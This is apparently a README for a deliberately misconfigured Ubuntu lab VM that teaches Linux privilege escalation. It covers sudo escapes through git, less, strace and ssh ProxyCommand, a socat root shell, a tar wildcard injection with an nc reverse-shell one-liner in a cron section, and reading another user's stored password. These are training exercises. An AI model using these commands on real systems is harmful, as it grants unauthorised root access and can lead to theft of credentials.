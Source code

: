 <h1 style="color:red">#EnterpriseNetworkingSquad</h1>

## Linux VM for Previleges Escalation


This [Ubuntu VM](https://drive.google.com) is created for getting the basic idea of privilege escalation in linux. Here we have misconfigured sudo rights which lead to root privilege escalation. This lab will help us to understand, how certain built-in applications and services if misconfigured, may be abused by an attacker.


<h1></h1>
<h2 style="color:yellow">GIT</h2>

Login with ```bob``` user in VM and take ssh connection of the VM to your base machine. Now just use ```sudo -l``` to list programs which we can execute with the same privileges as root.

![](Screenshots/git/1.png)

Enter ```sudo git help status``` which opens the file in vi mode and since we have run the command with sudo right which means we can get a shell through it. 

![](Screenshots/git/2.png)

Execute ```!bash``` command inside git status file as shown above and you will get a root shell.

![](Screenshots/git/3.png)


<h1></h1>
<h2 style="color:yellow">SOCAT</h2>

For this you have listen in one ssh session using ```socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:4545``` and have to connect to that listener using ```sudo socat TCP-LISTEN:4545,reuseaddr,fork ECEX:sh,pty,stderr,setsid,sane```.

![](Screenshots/socat/1.png)

You will get root privilege shell at listener.

![](Screenshots/socat/2.png)


<h1></h1>
<h2 style="color:yellow">STRACE</h2>

Login with ```peter``` user in VM and take ssh connection of the VM to your base machine. Now just use ```sudo -l``` to list programs which we can execute with the same privileges as root.

![](Screenshots/strace/1.png)

Execute ```sudo strace -o /dev/null /bin/bash``` command and you will get a root shell.

![](Screenshots/strace/2.png)


<h1></h1>
<h2 style="color:yellow">LESS</h2>

Enter ```sudo less /etc/passwd``` (You can open any file) which opens the file in vi mode and since we have run the command with sudo right which means we can get a shell through it. 

![](Screenshots/less/1.png)

Execute ```!bash``` command inside git status file as shown above and you will get a root shell.

![](Screenshots/less/2.png)


<h1></h1>
<h2 style="color:yellow">SSH</h2>

Login with bob user and execute ```sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' temp``` which can get a shell through it.

![](Screenshots/ssh/1.png)


<h1></h1>
<h2 style="color:yellow">CRONTAB</h2>

Notice the target has scheduled a bash program script for every 1 minute as root.

![](Screenshots/crontab/1.png)

Observe that every minute the /etc/cron.daily/backup script is executed and this is saving a compressed copy of each users home directories to /etc/backups.

![](Screenshots/crontab/2.png)

Take ssh connection in other terminal and start listener on specific port.

![](Screenshots/crontab/3.png)

Execute following commands:

```
bob@ubuntu:~$ echo "mkfifo /tmp/ab; nc 127.0.0.1 4545 0</tmp/ab | /bin/sh > /tmp/ab 2>&1; rm /tmp/ab" > shell.sh
bob@ubuntu:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
bob@ubuntu:~$ echo "" > --checkpoint=1
```

![](Screenshots/crontab/4.png)

You got the root shell at the listener.

![](Screenshots/crontab/5.png)


<h1></h1>
<h2 style="color:yellow">Horizontal Privileges Escalation</h2>

This task is based on the observation. You just need to observe the stored password in home directory of ```susan``` user. Login with ```bob``` user and observe the stored password.

![](Screenshots/susan/1.png)



I hope you got the basic idea about privilege escalation. There are more misconfigured programs so you can do practice. You can use ```sudo -l``` to list programs which we can execute with the same privileges as root.

Useful link: [https://gtfobins.github.io/](https://gtfobins.github.io/)
